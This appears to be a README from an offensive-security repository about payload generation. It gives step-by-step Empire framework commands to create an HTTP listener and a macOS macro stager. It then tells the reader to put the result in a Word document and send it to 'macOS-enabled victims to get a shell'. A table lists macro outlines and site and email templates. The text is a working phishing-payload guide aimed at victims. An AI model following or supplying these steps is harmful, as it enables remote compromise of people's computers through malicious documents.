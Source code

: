 # Payload Generation
---
### Empire
It's very easy to generate shell stagers/payloads with Empire. You can create office macros, DDE'd word documents, applescript, and a heap more.
##### General process is as follows:
###### Create a listener:
Enter the listeners menu: `listeners`
Choose a listener to create: `uselistener http` - Press <TAB> to see more than just http
View your listener info: `info`
_Note that you can add certs for communication over TLS_
And change accordingly: `set Name acmeHTTP`
Execute your listener: `execute`
###### Create a stager that uses the newly created listener:
`main` to go to the main menu.
Pick a payload: `usestager osx/macro` - press <TAB> to view the plethora of other payloads
You can view the info of a stager by typing `info`
Specify the stager to use the created listener: `set Listener acmeHTTP`
Set the OutFile of your payload (unless stdout is fine with you): `set OutFile /tmp/acmeOSXMacro`

Chuck that in a Word document and send it to your macOS-enabled victims to get a shell.

### Msfvenom
**RTFM.**

#### File list
| File | Description |
|------|-------------|
|xplatform.txt | cross-platform macro outline. Host document must be created on Windows |
|Site Templates | ??? |
|Email Templates | ??? |
